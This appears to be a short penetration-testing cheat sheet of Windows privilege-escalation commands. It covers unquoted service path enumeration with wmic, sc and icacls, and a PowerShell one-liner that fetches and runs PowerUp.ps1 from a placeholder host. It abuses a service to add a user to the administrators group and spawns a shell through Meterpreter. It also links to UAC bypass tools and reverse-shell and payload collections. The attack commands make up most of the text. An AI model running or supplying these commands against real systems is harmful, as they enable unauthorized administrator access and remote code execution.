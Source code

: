 ## Windows

[[Unquoted Service Path]](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) 

`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """ `

Unquoted Service Path: See if user has permissions to launch found executable...

`sc stop SERVICE`

`sc start SERVICE`

Unquoted Service Path: See if you can (M)odify designated folder

`icacls "FOLDERNAME"`

### Power Shell Priv Escalation

1. Create HTTP Server to host PowerUp.ps1

2. iex (New-Object Net.WebClient).DownloadString('http://IP/PowerUp.ps1')
 
3. Invoke-AllChecks

Add your user to Admins group, go UAC Bypass from there.
4. Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"


[[Bypass Uac]](https://github.com/hfiref0x/UACME)
[[UACME Hackersploit video]](https://www.youtube.com/watch?v=RXX0FHM9SEk)

# All
Generate Payloads

https://www.revshells.com/


https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master
sql injections, linux priv escalation, it has its all

https://packetstormsecurity.com/

## Meterpreter

create shell and check gcc version

`execute -f /bin/sh -i -c`

`gcc --version`
